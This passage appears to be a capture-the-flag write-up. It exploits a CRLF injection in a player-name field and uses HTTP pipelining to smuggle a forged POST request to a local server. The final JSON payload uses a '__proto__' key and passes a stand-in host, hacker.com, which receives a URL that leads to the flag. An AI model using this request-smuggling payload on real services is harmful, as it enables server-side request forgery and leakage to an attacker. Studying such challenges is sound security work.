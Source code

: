 It's a really simple library and doesn't have any checks in it - it's vulnerable to CRLF injection! We can potentially have `\r\n` in our player name.

We can use this to connect to `127.0.0.1:80`. HTTP/1.1 supports request pipelining, i.e. it keeps TCP connection open across multiple requests. However we need to make sure no illegal request is sent. Otherwise the server returns a 400 and closes the connection.

We can now send the following request over:
```
incr / HTTP/1.1\r\n
Host: 127.0.0.1\r\n
\r\n
POST /multiplayer/newgame\r\n
Host: 127.0.0.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 31\r\n
\r\n
url=https%3A%2F%2Fhacker.com%2F\r\n
\r\n
 1\r\n
```

(although INCR is not a valid HTTP method, the golang server doesn't disconnect you... you can try this yourself by `curl -X INCR`)

Final payload: `{"x":"__proto__","y":"server","p":"127.0.0.1:80", "scoreboard_name": "/ HTTP/1.1\r\nHost: 127.0.0.1\r\n\r\nPOST /multiplayer/newgame HTTP/1.1\r\nHost: 127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 31\r\n\r\nurl=https%3A%2F%2Fhacker.com%2F\r\n\r\n"}`

We get a URL sent to our server. Visiting that URL returns a flag.